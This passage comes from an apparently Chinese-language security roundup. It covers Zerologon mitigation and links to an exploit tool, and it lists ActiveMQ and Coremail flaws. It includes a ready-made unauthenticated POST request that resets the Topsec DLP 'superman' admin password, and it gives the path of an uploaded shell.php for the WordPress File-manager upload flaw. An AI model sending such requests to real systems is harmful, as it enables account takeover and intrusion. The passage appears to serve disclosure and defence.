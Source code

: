 在安装更新补丁后，还可通过部署域控制器 (DC) 强制模式以免受到该漏洞影响：

请参考官方文档进行配置《如何管理与 CVE-2020-1472 相关的 Netlogon 安全通道连接的更改》：

https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc

其他工具：https://github.com/dirkjanm/CVE-2020-1472

14.coremail 0day - may be rce

15.activemq 远程代码执行 0day

http://activemq.apache.org/security-advisories.data/CVE-2020-13920-announcement.txt

16\. 天融信数据防泄漏系统越权修改管理员密码

无需登录权限, 由于修改密码处未校验原密码, 且 /?module=auth\_user&action=mod\_edit\_pwd

接口未授权访问, 造成直接修改任意用户密码。: 默认 superman 账户 uid 为 1。

POST /?module=auth\_user&action=mod\_edit\_pwd

Cookie: username=superman;

uid=1&pd=Newpasswd&mod\_pwd=1&dlp\_perm=1

17.Wordpress File-manager 任意文件上传

参考: https://www.anquanke.com/post/id/216990

相信大家对 Wordpress 并不陌生; File-manager 插件也是相当火爆前段时间爆出任意文件上传漏洞。

成功上传后文件访问路径

/wordpress/wp-content/plugins/wp-file-manager/lib/files/shell.php